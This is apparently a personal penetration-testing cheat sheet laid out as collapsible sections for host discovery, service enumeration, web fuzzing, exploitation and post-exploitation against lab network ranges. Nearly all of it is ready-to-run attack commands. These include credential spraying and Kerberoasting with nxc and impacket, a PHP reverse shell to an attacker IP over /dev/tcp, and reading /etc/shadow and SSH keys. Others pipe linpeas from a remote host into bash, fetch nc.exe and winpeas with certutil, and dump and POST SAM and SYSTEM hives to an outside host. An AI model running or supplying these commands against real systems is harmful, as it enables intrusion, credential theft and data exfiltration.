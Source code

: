 
<h1>My Methodology</h1>


<details>
    <summary><h4>Host Discovery (External)</h4></summary>
    
    fping -ag 10.10.110.0/24 2>/dev/null | tee external-ips ; \
    for ip in $(cat external-ips); do nmap=$(nmap -p- --max-retries 1 --min-rate 10000 --open "$ip" | grep -vE 'Warning:|filtered|latency|Starting'); echo "$nmap"; ports=$(echo "$nmap" | sed -n 's|/.*||p' | paste -sd ','); echo "nmap -sC -sV -Pn -p$ports $ip"; echo; done
</details>

<details>
    <summary><h4>Host Discovery (Internal)</h4></summary>
    
    fping -ag 172.16.1.0/24 2>/dev/null | tee internal-ips ; \
    for ip in $(cat internal-ips); do nmap=$(nmap -p- --max-retries 1 --min-rate 10000 --open "$ip" | grep -vE 'Warning:|filtered|latency|Starting'); echo "$nmap"; ports=$(echo "$nmap" | sed -n 's|/.*||p' | paste -sd ','); echo "nmap -sC -sV -Pn -p$ports $ip"; echo; done
</details>

<details>
    <summary><h4>Service Enumeration</h4></summary>
    
    nmap -Pn -sC -sV 172.16.1.10 -p22,80,139,445
    ldap=$(nmap --script "ldap* and not brute" -p 389 172.16.1.10); echo "$ldap"
    nxc ftp 172.16.1.10 --port 21 -u 'anonymous' -p 'anonymous' --ls
    nxc smb 172.16.1.10 --port 445 -u usernames -p passwords --rid-brute 10000
    nxc smb 172.16.1.10 --port 445 -u usernames -p passwords --shares
    mysql -h 172.16.1.10 -u root@localhost -e 'show databases;'
    impacket-GetNPUsers -usersfile usernames domain/ -dc-ip 172.16.1.10
    impacket-GetUserSPNs -request-user "$objuser" -dc-ip 172.16.1.10 domain/username:password
    impacket-GetUserSPNs -no-preauth "$user" -usersfile usernames -dc-host 172.16.1.10 domain/
    impacket-GetUserSPNs -request -dc-ip 172.16.1.10 domain/username:password
    
    for x in $(showmount -e 172.16.1.10 | awk '{print $1}' | grep -v 'Export')
        do mkdir -p "/dev/shm"/mnt"$x"
        sudo mount -t nfs 172.16.1.10:"$x" "/dev/shm"/mnt"$x" -o nolock
        tree -puga "/dev/shm"/mnt"$x"
    done
</details>

<details>
    <summary><h4>Web Enumeration</h4></summary>
    
    [*] Technology Discovery       
    whatweb http://10.10.110.100

    [*] WordPress Discovery
    wpscan --url http://10.10.110.100/wordpress --enumerate
    
    [*] Directory Discovery
    ffuf -u 'http://10.10.110.100/FUZZ' -t 400 -rate 10000 -e .php -v -recursion -mc 200,301 \
    -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt \
    2>/dev/null | grep -oP '(http.*)(?<!/)$'
    
    [*] Directory Traversal
    ffuf -u 'http://10.10.110.100/nav.php?page=FUZZ' -t 400 -rate 10000 -v -mc 200 \
    -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt \
    2>/dev/null | grep -oP '(http.*)(?<!/)$'
    
    [*] XSS + SSTI
    <img src=x>'"${{7*7}}
    
    [*] Subdomain Discovery
    gobuster vhost --append-domain -u example.com -k -r -t200 -q \
    -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt \
    | grep -oP '(?<=Found: )[^ ]+'
</details>

<details>
    <summary><h4>Exploitation</h4></summary>
    
    [*] Reverse Shells
    <?php
        $lhost = "10.10.16.3";
        $lport = 4444;
        
        exec("bash -c 'bash -i >& /dev/tcp/$lhost/$lport 0>&1'");
        $sock = fsockopen($lhost, $lport);
        if ($sock) {
            exec("sh <&3 >&3 2>&3");
            }
    ?>
    
    [*] Upgrade TTY
    python3 -c 'import pty; pty.spawn("/bin/bash")';
    CTRL-Z
    stty size;stty raw -echo;fg
    export SHELL=bash;
    export TERM=xterm-256color;
    stty rows <num> columns <num>
    reset
</details>

<details>
    <summary><h4>Post Exploitation</h4></summary>
    
    [*] Linux
    ssh user@xxxxxxxxx -i id_rsa -L 33060:localhost:33060
    netstat -tuln
    ls -la /opt
    sudo -l
    find / -perm /4000 2>/dev/null
    grep -r -E 'conf' /var/www
    cat ~/.ssh/id_rsa
    cat /etc/shadow
    curl xxxxxxxxxx:8088/linpeas.sh | bash
    GTFO bins
    
    [*] Windows
    evil-winrm -i xxxxxxxxxx -u 'username' -p 'password'
    evil-winrm -i xxxxxxxxxx -u 'username' -H 'hash'
    cd C:\users
    tree /f
    powershell -c "certutil -urlcache -f http://xxxxxxxxxx:8088/winpeas.exe C:\programdata\winpeas.exe"
    powershell -c "certutil -urlcache -f http://xxxxxxxxxx:8088/nc.exe C:\programdata\nc.exe"
    
    click.url
    [InternetShortcut]
    URL=C:\programdata\shell.bat
    
    meterpreter > use priv
    meterpreter > getsystem
    
    nxc winrm xxxxxxxxxx -u 'username' -p 'password' -x \
    '
    powershell -c rm *.SAV
    powershell -c reg save HKLM\SYSTEM SYSTEM.SAV
    powershell -c reg save HKLM\SAM SAM.SAV
    powershell -c compress-archive *.SAV SAM.zip
    powershell -c dir
    iwr http://xxxxxxxxxx:xxxx -Method POST -InFile SAM.zip
    '; unzip -o SAM.zip; \
    impacket-secretsdump LOCAL -sam SAM.SAV -system SYSTEM.SAV
    
    powershell -c "certutil -urlcache -f http://xxxxxxxxxx:8088/powerview.ps1 C:\programdata\powerview.ps1"
    powershell Import-Module C:\programdata\powerview.ps1
    Get-NetDomain
    Get-LocalUser
    Set-DomainObject -Identity USERNAME -SET @{serviceprincipalname='SET/SET'}; Get-DomainSPNTicket -spn SET/SET
    bloodhound-python -c all -u 'username' -p 'password' -d "$domain" -dc "$dc" -ns "$target"
    bloodhound-python -c default -u 'username' -p 'password' -d "$domain" -dc "$dc" -ns "$target"
</details>
